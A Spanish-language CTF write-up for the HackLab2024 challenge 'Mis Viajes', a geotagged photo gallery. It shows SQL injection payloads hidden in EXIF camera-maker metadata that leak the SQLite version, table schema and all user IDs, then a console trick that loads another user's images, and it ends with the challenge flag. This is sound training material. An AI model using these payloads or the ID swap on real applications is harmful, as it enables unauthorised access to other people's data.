

# M1st1fy 

Este documento fue confeccionado por [`M1st1fy`](https://github.com/m1st1fy), un equipo concebido para la realización de CTFs :-)

> Nota: Pueden encontrar los otros documentos del HackLab2024 [aquí](https://github.com/M1st1fy/HackLab2024)
## Integrantes

| Integrante        | Facultad                                        |
| :---------------- | :---------------------------------------------- |
| Agustín M. Blanco | [U.T.N. F.R.B.A.](https://www.frba.utn.edu.ar/) |
| Tomás N. Raspa    | [U.T.N. F.R.B.A.](https://www.frba.utn.edu.ar/) |

## Índice

1. [Mis Viajes](#Mis_Viajes)
	1. [Primera aproximación](#Primera_aproximación)
	2. [Observando en profundidad](#Observando_en_profundidad)
		1. [Obtención de imágenes](#Obtención_de_imágenes)
		2. [Carga de imágenes](#Carga_de_imágenes)
	3. [El ataque](#El_ataque)

---
## Mis Viajes

>Un amigo te creó un usuario a una plataforma que desarrolló para guardar imágenes de viajes.
>En cada imagen que se guarda se puede agregar una descripción, y si la foto cuenta con los metadatos necesarios la geolocaliza en el mapa además de obtener otros datos como la marca y modelo de la cámara.
>¿Podrás acceder a otras imágenes que no te correspondan?

### Primera aproximación

Al ingresar al sistema, nos encontramos con lo que parece ser una galería de imágenes geolocalizadas. Hay un listado de nuestras imágenes subidas junto con un mapa indicando las coordenadas donde dichas imágenes fueron tomadas.


Una de las primeras cosas que llama la atención de esta pantalla es que, de las imágenes subidas, se lista mucha más información que sólo la descripción que nos es solicitada para subirlas. 

Esto podría ser un indicador de que el sistema está haciendo algo más con las imágenes además de subirlas. Recordemos esta información para las próximas etapas. 

Veamos ahora qué pasa al subir una imagen.

Al completar los datos y presionar subir recibimos un `alert` indicando que la imagen se subió exitosamente.


Finalmente, la página es recargada y en nuestro listado de imágenes tenemos la imagen recientemente agregada.


Intentemos ahora ver cómo está funcionando internamente...

### Observando en profundidad

Ayudándonos de las [herramientas de desarrollador](https://developer.chrome.com/docs/devtools?hl=es-419) de nuestro navegador, podemos ver las peticiones que se están haciendo al servidor junto con las respuestas que éste nos provee. 

#### Obtención de imágenes
Al recargar la página con las herramientas abiertas, vemos que para construir la página se realizan muchas peticiones diferentes. La primera de ellas, es el [GET](https://developer.mozilla.org/es/docs/Web/HTTP/Methods/GET) de la página per sé. Sin embargo, utilizando las herramientas podemos ver que esta petición sólo devolvió la estructura general de la página pero no así las imágenes


Si seguimos buscando dentro de las peticiones que se hicieron al servidor, encontraremos que una de ellas nos devolvió un [JSON](https://es.wikipedia.org/wiki/JSON) con lo que parece ser la información sobre mis imágenes


Si vemos un poco más en detalle la petición, vemos que se trata de un [GET](https://developer.mozilla.org/es/docs/Web/HTTP/Methods/GET) a `/images/d6ac9cd7-03d8-4a95-a73f-41a02f09d210`, esto nos podría resultar útil más adelante. 

Vemos un poco más en detalle los datos devueltos:
```json
[
    {
        "datetime": "2024:10:14 23:51:37",
        "description": "Tarde en V. Carlos Paz",
        "filename": "ea255de8-aa57-4915-bfee-ee402d48ce02.jpg",
        "id": 2,
        "latitude": -31.3994801,
        "longitude": -64.4746722,
        "make": "Samsung",
        "model": "Galaxy S23",
        "user_id": "d6ac9cd7-03d8-4a95-a73f-41a02f09d210"
    },
    {
        "datetime": "2008:10:22 16:28:39",
        "description": "Descripci\u00f3n de prueba",
        "filename": "600609b9-b178-482b-baf6-749ebd6980bb.jpg",
        "id": 3,
        "latitude": 43.46744833333334,
        "longitude": 11.885126666663888,
        "make": "NIKON",
        "model": "COOLPIX P6000",
        "user_id": "d6ac9cd7-03d8-4a95-a73f-41a02f09d210"
    }
]
```

Lo primero que notamos al analizar este JSON es que nuestra teoría inicial fue correcta, el sistema está guardando mucha más información sobre las imágenes de las que aparenta. 
Lo segundo que notamos al ver esta *response*, es que todas las imágenes devueltas corresponden al `user_id` `"d6ac9cd7-03d8-4a95-a73f-41a02f09d210"`. Por sí solo esto no es un dato relevante, pero cobra mucho más sentido si recordamos la petición que habíamos realizado para obtener este JSON. Era un GET a `/images/d6ac9cd7-03d8-4a95-a73f-41a02f09d210`. 
¿Notan algo parecido?
El valor que fue enviado luego de `/images/` coincide exactamente con el `user_id` de las imágenes devueltas. Esto nos lleva a concluir que la ruta `/images/` en realidad es la ruta parametrizada `/images/:user_id`, siendo `user_id` el *id* del usuario del que quiero obtener las imágenes. 

Si tenemos en cuenta que el objetivo del desafío es obtener las imágenes de otros usuarios, pareceríamos estar muy cerca, sólo nos faltaría encontrar el `user_id` de los demás. Ya veremos cómo podemos hacerlo, pero antes terminemos de analizar el comportamiento. 

#### Carga de imágenes

Ya vimos cómo se comporta el sistema al obtener las imágenes existentes, veamos ahora cómo lo hace al cargarle una nueva. 

Si repetimos la subida de imagen que hicimos en _[Primera aproximación](#Primera_aproximación)_ pero con las herramientas de desarrollador abiertas, veremos que la subida de imagen no es más que un [POST](https://developer.mozilla.org/es/docs/Web/HTTP/Methods/POST) a `/upload` enviando como *payload* valores para `description`, `image` y `user_id`, sí, el mismo `user_id` que identificamos en [Obtención de imágenes](#Obtención_de_imágenes).


Ante esta petición, el servidor respondió con un código de estado [200](https://developer.mozilla.org/es/docs/Web/HTTP/Status/200) y el siguiente JSON:
```json
{"message":"Image uploaded successfully"}
```


Es importante destacar que, de todos los datos que sabemos que el sistema guarda de las imágenes (`datetime`, `description`, `filename`,`latitude`,`longitude`,`make`,`model` y `user_id`), en la petición de carga sólo se envían explícitamente `description` y `user_id`; esto nos indica que, sea cual sea el procesamiento que esté haciendo el sistema para obtener los demás datos, lo está haciendo en el Back-End.

Si bien esto parecería anecdótico, podría resultarnos de mucha utilidad más adelante, ya que los datos obtenidos de un procesamiento, hecho por el propio sistema, son menos propensos a tener [sanitizaciones](https://owasp.org/www-project-mobile-top-10/2023-risks/m4-insufficient-input-output-validation), aumentando la posibilidad de que se conviertan en un vector de ataque. 

>Nota: Investigando un poco sobre la información adicional que está guardando el sistema, descubrimos que se trata de metadatos (datos sobre los datos) de las imágenes. En particular, se trata de campos pertenecientes a [EXIF](https://es.wikipedia.org/wiki/Exchangeable_image_file_format), un formato para el guardado de metadatos de imágenes. 

Ahora sí, veamos cómo podemos romperlo!

### El ataque

De los pasos anteriores sabemos que el sistema está leyendo los metadatos de la imagen en el Back-End y que dado que lo hace ahí, muy posiblemente no estén siendo sanitizados. Sabiendo esto, intentemos atacarlo!

Para ello, asumiendo que se trata de una [Inyección SQL](https://owasp.org/www-community/attacks/SQL_Injection), podemos construir imágenes con inyecciones en sus metadatos.

> Nota: Para más información sobre SQLi pueden consultar la entrada al respecto en [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection) o en [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

Lo primero que nos interesaría saber es qué motor de base de datos se está utilizando. Para ello construimos una imagen que contenga en el campo `CameraMaker` nuestro *payload*.
> Payload: `',((SELECT sqlite_version()))) -- -`


Al subir la imagen al sistema, vemos que en el campo del modelo se completó con el dato que estabamos buscando, la versión de la BD. Esto nos confirma, además, que se está usando un [SQLite](https://www.sqlite.org/) `3.40.1` como base de datos.


Sabiendo esto, lo siguiente que nos va a interesar conocer, son las tablas que hay disponibles en el sistema. Para ello, construimos otra imagen.

>Payload: `',((SELECT GROUP_CONCAT(name, '|') FROM sqlite_master WHERE type='table'))) -- -`


Nuevamente, el sistema nos dice que la imagen fue cargada con éxito, y, al ver el campo modelo de la nueva imagen obtenemos la información que buscábamos.


Las tablas presentes en la base de datos son:
- `images`
- `sqlite_sequence`

La tabla `sqlite_sequence` no resulta tanto de nuestro interés por tratarse de una tabla interna de SQLite, centrémonos entonces en `images`. Lo siguiente que nos interesa conoces es la estructura de dicha tabla para poder luego hacer consultas sobre sus datos. Para ello, construiremos otra imagen más.

>Payload: `',((SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='images'))) -- -`


Al subirlo, en el campo modelo obtenemos la estructura de la tabla `images`.


```sql
CREATE TABLE images (
	id INTEGER PRIMARY KEY AUTOINCREMENT, 
	user_id TEXT NOT NULL, 
	filename TEXT NOT NULL, 
	description TEXT, 
	latitude REAL, 
	longitude REAL, 
	datetime TEXT, 
	make TEXT, 
	model TEXT
)
```

Finalmente, para obtener los `user_id` que necesitamos, podemos construir una última imagen. 

> Payload: `',((SELECT GROUP_CONCAT(user_id , '|') FROM images ))) -- -`


Al subirlo, en el campo modelo obtenemos los `user_id` que estabamos buscando!


Vemos que en el sistema realmente sólo existen dos `user_id`, el nuestro, y el de un desconocido.

| `user_id`                              | Usuario       |
| -------------------------------------- | ------------- |
| `1089b4a3-b6d0-450d-9c8a-b120b30bcb04` | _desconocido_ |
| `d6ac9cd7-03d8-4a95-a73f-41a02f09d210` | Nosotros :P   |

Genial, ya conseguimos el `user_id` del desconocido, ahora sólo nos falta hacer que el sistema traiga sus imágenes. Para ello, analicemos el código _JavaScript_ que obtiene y renderiza las imágenes:

```js
async function loadImages() {
    const response = await fetch(`/images/${USER_ID}`);
    const images = await response.json();
    const imageList = document.getElementById('image-list');
    imageList.innerHTML = '';

    images.forEach(image => {
        const imgElement = document.createElement('div');
        imgElement.className = 'image-item';
        imgElement.innerHTML = `
            
            <p>Descripción: ${image.description}</p>
            <p>Fecha: ${image.datetime || 'Sin fecha.'}</p>
            <p>Marca: ${image.make || 'Sin marca.'} Modelo: ${image.model || 'Sin modelo.'}</p>
        `;
        imageList.appendChild(imgElement);

        if (image.latitude && image.longitude) {
            addMarker(image);
        }
    });
}
```

Vemos que se trata de una función asíncrona que realiza un *[fetch](https://developer.mozilla.org/es/docs/Web/API/Fetch_API)* al *endpoint* `/images/:user_id` que habíamos detectado en una de las etapas anteriores, obteniendo el valor del `user_id` de una variable global `USER_ID`.

Finalmente, para completar el laboratorio, utilizando la consola de las herramientas de desarrollador, podemos cambiar la variable `USER_ID` por el `user_id` del desconocido y ejecutar la función `loadImages()` para que actualice las imágenes mostradas.


Una vez hecho esto, observamos la sección _Mis Imágenes_ de la página, veremos que nuestras imágenes fueron reemplazadas por una de la UTN en cuya descripción se encuentra la bandera :D


>Flag: `878c14bbd5cd0127b86fd8dac1d55c4d`
